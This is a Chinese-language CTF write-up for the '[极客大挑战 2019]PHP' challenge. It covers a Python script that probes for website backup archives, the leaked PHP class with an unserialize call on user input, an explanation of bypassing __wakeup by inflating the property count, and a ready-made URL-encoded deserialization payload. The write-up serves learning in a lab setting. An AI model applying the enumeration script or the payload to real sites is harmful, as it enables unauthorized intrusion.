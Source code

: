 # 原创
：  [极客大挑战 2019]PHP

# [极客大挑战 2019]PHP

#### [极客大挑战 2019]PHP

## 考点

> 
PHP反序列化


## 思路

> 
题目提示有一个备份文件的好习惯，所以我们用脚本跑一下试试


```
# 常见的网站源码备份文件后缀
# tar
# tar.gz
# zip
# rar
# 常见的网站源码备份文件名
# web
# website
# backup
# back
# www
# wwwroot
# temp
import requests

url = "http://fa5574d9-08a0-4542-bdb3-b87a78f78258.node3.buuoj.cn/"

li1 = ['web', 'website', 'backup', 'back', 'www', 'wwwroot', 'temp']
li2 = ['tar', 'tar.gz', 'zip', 'rar']
number = 1
for i in li1:
    for j in li2:
        url_final = url + "/" + i + "." + j
        r = requests.get(url_final)
        print(r,' ',i,' ',j)

```

> 
我们发现存在www.zip备份文件，我们下载下来看看，flag.php一看就是假的flag，我们重点关注class.php


```
&lt;?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this-&gt;username = $username;
        $this-&gt;password = $password;
    }

    function __wakeup(){
        $this-&gt;username = 'guest';
    }

    function __destruct(){
        if ($this-&gt;password != 100) {
            echo "&lt;/br&gt;NO!!!hacker!!!&lt;/br&gt;";
            echo "You name is: ";
            echo $this-&gt;username;echo "&lt;/br&gt;";
            echo "You password is: ";
            echo $this-&gt;password;echo "&lt;/br&gt;";
            die();
        }
        if ($this-&gt;username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "&lt;/br&gt;hello my friend~~&lt;/br&gt;sorry i can't give you the flag!";
            die();

            
        }
    }
}
?&gt;

&lt;?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
?&gt;

```

> 
分析代码逻辑：<br/> password要为100，username要为admin；且需绕过__wakeup函数，在反序列化字符串时，属性个数的值大于实际属性个数时，会跳过 __wakeup()函数的执行；注意到private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见，因此私有字段的字段名在序列化时，类名和字段名前面都会加上0的前缀，字符串长度也包括所加前缀的长度，在php版本大于7.1中我们也可以采用将字段名private和protect换成字段名public来绕过


## Payload

```
&lt;?php
class Name{
	private $username = 'admin';
	private $password = '100';
}

$a = str_replace(":2:", ":3:", (string)(serialize(new Name)));
$a = urlencode(($a));
echo $a;
?&gt;

```

Payload：`O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bs%3A3%3A%22100%22%3B%7D`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210513220014240.png#pic_center"/>
